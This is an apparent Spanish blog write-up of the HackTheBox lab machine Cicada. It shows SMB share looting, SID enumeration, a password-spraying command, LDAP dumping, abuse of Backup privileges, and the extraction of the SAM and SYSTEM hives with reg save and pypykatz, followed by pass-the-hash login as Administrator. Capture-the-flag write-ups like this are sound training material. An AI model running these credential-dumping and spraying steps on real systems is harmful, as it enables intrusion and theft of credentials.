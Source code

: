 ```yaml
---
layout: single
title: Cicada - HackTheBox
excerpt: "Este writeup documenta la explotación de la máquina Cicada en HackTheBox, destacando vulnerabilidades y técnicas de escalada de privilegios mediante SMB, dumping de LDAP y abuso de permisos de Backup."
date: 2025-03-03
classes: wide
header:
  teaser: /assets/images/Cicada/Cicada.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - HackTheBox
  - Red Team
tags:  
  - SMB Exploitation
  - Windows Privilege Escalation
  - LDAP Dumping
---
```


![](/assets/images/Cicada/Cicada.png){:style="max-width:450px;height:auto;"}

## Resumen

En este writeup se explora la explotación de la máquina Cicada en HackTheBox, abordando diversas vulnerabilidades que permiten la escalada de privilegios hasta el usuario Administrator. Se documenta el proceso completo, desde el reconocimiento inicial hasta la obtención de acceso y escalación de privilegios, utilizando técnicas como el acceso a recursos compartidos SMB, el dumping de LDAP y el abuso de permisos en Windows.

## Reconocimiento

El servidor expone los siguientes servicios:

- Domain en el puerto 53

- Kerberos-sec en el puerto 88

- MSRPC en el puerto 135

- Netbios-ssn en el puerto 139

- LDAP en el puerto 389

- Microsoft-ds en el puerto 445

- Kpasswd5 en el puerto 464

- SSL/LDAP en el puerto 636

- LDAP en el puerto 3268

- SSL/LDAP en el puerto 3269

- HTTP en el puerto 5985

Realizamos un escaneo de puertos con nmap para identificar los servicios disponibles, también ejecutamos scripts básicos de reconocimiento con nmap:

![](/assets/images/Cicada/Reconocimiento-Puertos.png)

![](/assets/images/Cicada/Reconocimiento-Puertos-Scripts.png)

## SMB Shares

Una vez hecho el reconocimiento, si vemos los recursos compartidos con el usuario 'Guest' sin agregar contraseña, podemos ver que tenemos dos recursos 'HR' y 'IPC$':

![](/assets/images/Cicada/SMB-Shares.png)

Si entramos en el recurso 'HR', nos encontramos con un fichero txt (Notice from HR.txt), nos lo traemos a nuestra máquina:

![](/assets/images/Cicada/SMB-Shares-HR.png)

Si observamos el documento, podemos encontrarnos con una credencial:

![](/assets/images/Cicada/SMB-Shares-HR-File.png)

Si listamos los usuarios que hay en el dominio:

    -> impacket-lookupsid anonymous@cicada.htb
        Impacket v0.11.0 - Copyright 2023 Fortra

        Password:
        [*] Brute forcing SIDs at cicada.htb
        [*] StringBinding ncacn_np:cicada.htb[\pipe\lsarpc]
        [*] Domain SID is: S-1-5-21-917908876-1423158569-3159038727
        498: CICADA\Enterprise Read-only Domain Controllers (SidTypeGroup)
        500: CICADA\Administrator (SidTypeUser)
        501: CICADA\Guest (SidTypeUser)
        502: CICADA\krbtgt (SidTypeUser)
        512: CICADA\Domain Admins (SidTypeGroup)
        513: CICADA\Domain Users (SidTypeGroup)
        514: CICADA\Domain Guests (SidTypeGroup)
        515: CICADA\Domain Computers (SidTypeGroup)
        516: CICADA\Domain Controllers (SidTypeGroup)
        517: CICADA\Cert Publishers (SidTypeAlias)
        518: CICADA\Schema Admins (SidTypeGroup)
        519: CICADA\Enterprise Admins (SidTypeGroup)
        520: CICADA\Group Policy Creator Owners (SidTypeGroup)
        521: CICADA\Read-only Domain Controllers (SidTypeGroup)
        522: CICADA\Cloneable Domain Controllers (SidTypeGroup)
        525: CICADA\Protected Users (SidTypeGroup)
        526: CICADA\Key Admins (SidTypeGroup)
        527: CICADA\Enterprise Key Admins (SidTypeGroup)
        553: CICADA\RAS and IAS Servers (SidTypeAlias)
        571: CICADA\Allowed RODC Password Replication Group (SidTypeAlias)
        572: CICADA\Denied RODC Password Replication Group (SidTypeAlias)
        1000: CICADA\CICADA-DC$ (SidTypeUser)
        1101: CICADA\DnsAdmins (SidTypeAlias)
        1102: CICADA\DnsUpdateProxy (SidTypeGroup)
        1103: CICADA\Groups (SidTypeGroup)
        1104: CICADA\john.smoulder (SidTypeUser)
        1105: CICADA\sarah.dantelia (SidTypeUser)
        1106: CICADA\michael.wrightson (SidTypeUser)
        1108: CICADA\david.orelious (SidTypeUser)
        1109: CICADA\Dev Support (SidTypeGroup)
        1601: CICADA\emily.oscars (SidTypeUser)

Podemos hacer un 'passsword spraying' y con eso averiguar el usuario de esa credencial anteriormente encontrada.

    nxc smb cicada.htb -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success

Una vez sabemos que el usuario 'Michael.wrightson' tiene la credencial anteriormente encontrada, podemos dumpear LDAP.

Una vez dumpeada, hay un archivo llamado 'domain.users.grep' que contiene un usuario 'david.orelious' con su contraseña:

![](/assets/images/Cicada/LDAP-DUMP.png)

Con las credenciales de 'david.orelious', vamos a ver que recursos compartidos puede ver:

![](/assets/images/Cicada/SMB-Shares-David.png)

Vemos que tiene permisos de lectura en 'DEV', 'HR', 'IPC$', 'NETLOGIN' y en 'SYSVOL', la que nos interesa es 'DEV', hay un archivo llamado 'Backup_script.ps1':

![](/assets/images/Cicada/SMB-Shares-David-DEV.png)

Si nos lo traemos a nuestra máquina, podemos ver otras credenciales, en este caso de la usuaria 'emily.oscars' y su contraseña:

![](/assets/images/Cicada/SMB-Shares-David-DEV-File.png)

## Reverse Shell

Con la herramienta 'evil-winrm' nos conectamos como la usuaria 'emily.oscars', y en su escritorio tenemos la bandera 'user':

![](/assets/images/Cicada/Reverse-Shell.png)

## Escalada de Privilegios

Si listamos los permisos que tiene emily:

![](/assets/images/Cicada/Emily-Privileges.png)

Podemos ver que tenemos permisos de 'Backup', podemos hacer una copia de la bandera 'root':

![](/assets/images/Cicada/Robocopy.png)

![](/assets/images/Cicada/Flag-Root.png)

### NOTA

En vez de copiar solo la bandera y dar por finalizada la máquina, también se puede escalar de privilegios extrayendo los archivos 'SAM' y 'SYSTEM':

- SAM: Contiene los hashes de las contraseñas de los usuarios locales

- SYSTEM: Contiene la clave de cifrado necesaria para descifrar los hashes de SAM

Se extraen:

    reg save hklm\sam c:\Directorio-a-elegir\sam (nombre final para el archivo)

    reg save hklm\system c:\Directorio-a-elegir\system (nombre final para el archivo)

Traes a tu equipo los archivos, y con la herramienta 'pypykatz' analizas los archivos SAM y SYSTEM para obtener los hashes NTLM:

    -> pypykatz registry --sam sam system
        WARNING:pypykatz:SECURITY hive path not supplied! Parsing SECURITY will not work
        WARNING:pypykatz:SOFTWARE hive path not supplied! Parsing SOFTWARE will not work
        ============== SYSTEM hive secrets ==============
        CurrentControlSet: ControlSet001
        Boot Key: 3c2b033757a49110a9ee680b46e8d620
        ============== SAM hive secrets ==============
        HBoot Key: a1c299e572ff8c643a857d3fdb3e5c7c1010101010101010101010101
        Administrator:500:aad3b435b51404eeaad3b435b5:2b87e7c93a3e8a0*********:::
        Guest:501:aad3b435b51404eeaad3b435b5:31d6cfe0d16ae931b73c5***********:::
        DefaultAccount:503:aad3b435b51404eeaad3b435b5:31d6cfe0d16ae931b7*****:::
        WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b:31d6cfe0d16ae931b73c59*****:::

Una vez tienes el hash NTLM del usuario 'Administrator', inicias una shell con la herramienta 'evil-winrm':

    evil-winrm -i cicada.htb -u administrator -H 2b87e7c93a3e8a0ea4a********

### Conclusión

La máquina Cicada demuestra cómo múltiples vectores de ataque pueden ser encadenados para comprometer un sistema. Desde la obtención de credenciales en recursos compartidos SMB hasta el dumping de LDAP y la escalada de privilegios mediante el abuso de permisos de Backup, este reto refuerza la importancia de la seguridad en entornos Windows. La combinación de técnicas como password spraying, LDAP dumping, abuso de permisos y extracción de hashes NTLM subraya la necesidad de aplicar buenas prácticas de seguridad, control de accesos y segmentación en cualquier infraestructura empresarial.

